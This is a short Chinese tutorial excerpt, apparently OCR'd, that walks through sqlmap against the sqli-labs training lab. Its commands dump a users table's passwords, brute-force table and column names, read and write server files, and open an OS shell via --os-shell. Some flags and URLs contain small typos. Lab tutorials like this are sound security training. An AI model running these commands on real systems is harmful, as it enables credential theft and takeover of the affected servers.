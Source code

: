 
4.查看数据库列里面的具体的值

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --D security --T users -C password     --dump  --batch



实例演示-暴力破解
使用条件：

1.MySQL数据库版本小于5.0，没有information——schema表。

2.Microssoft Access数据库。

3.当前用户没有权限读取系统中保存的数据。

*暴力破解中破解表名的文件位于common-tables.txt 中，同理破解列名的文件位于common-columns.txt 中

1.暴力破解表名

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"  -D security --common-tables --batch



2.暴力破解列名

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"  -D security -Tusers --common-columns --batch



实例演示-读取文件/上传文件
1.读取文件

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"   --file-read "C:/post.txt"



2写入文件

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"   --file-write "/root/1.txt"

 --file-dest "C:/phpstudy/PHPTutorial/www/1.txt"



实例演示-获取shell
sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"  --os-shell